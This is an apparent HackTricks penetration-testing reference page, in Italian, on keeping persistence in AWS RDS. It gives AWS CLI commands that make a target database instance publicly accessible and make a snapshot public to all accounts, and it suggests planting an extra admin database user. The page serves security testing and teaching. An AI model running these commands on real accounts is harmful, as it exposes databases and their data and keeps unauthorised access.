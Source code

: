 # AWS - RDS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Per maggiori informazioni, vedi:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Rendere l'istanza accessibile pubblicamente: `rds:ModifyDBInstance`

Un attacker con questa autorizzazione può **modificare un'istanza RDS esistente per abilitare l'accessibilità pubblica**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Crea un utente admin all'interno del DB

Un attacker potrebbe semplicemente **creare un utente all'interno del DB** così, anche se la password dell'utente master viene modificata, **non perde l'accesso** al database.

### Rendi lo snapshot pubblico
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
